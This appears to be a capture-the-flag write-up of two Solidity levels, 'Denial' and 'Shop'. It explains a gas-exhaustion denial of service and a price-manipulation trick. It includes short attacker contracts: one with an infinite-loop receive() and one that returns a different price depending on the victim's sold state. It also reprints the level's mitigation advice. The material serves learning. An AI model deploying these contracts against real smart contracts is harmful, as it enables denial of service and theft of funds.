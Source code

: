 Challenge solved ✅

## Denial

> There is a way to using `addr.call{value:x}("")`, only that it forwards all remaining gas and opens up the ability to perform more expensive actions ( and it returns a failure code instead of propagating the error )  ~ Solidity docs

That's all we need. So I lost quite bit of time looking for a way to reach the call stack depth limit ( which is 1024 ). But it was more the hard way of doing things.  What if we didn't leave the caller contract enough gas to transfer the 1% of the owner ? Yes that's really it !

### Exploitation

Our evil contract, btw don't try to run it on Remix as it will crash instead use truffle console or something similar to try it 

```js
contract EvilContract { 
    receive() external payable {
        while(true);  // the line that crashed my whole VM
    }
}
```

Challenge solved ✅
 
 > This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.
If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value().

Typically one should follow the checks-effects-interactions pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.


## Shop

```js
interface Shop {

  function buy()  external ;
  function isSold()  external view returns (bool) ;
  }

contract EvilContract { 
    address victimAddress;
    Shop shopContract;

    function setVictimAddress( address _victimAddress) public { 
        victimAddress= _victimAddress;
        shopContract = Shop(_victimAddress);
    }

    function price() external view returns (uint){
        return shopContract.isSold()?0:100;
    }

    function buy() public {
        shopContract.buy();
    }
```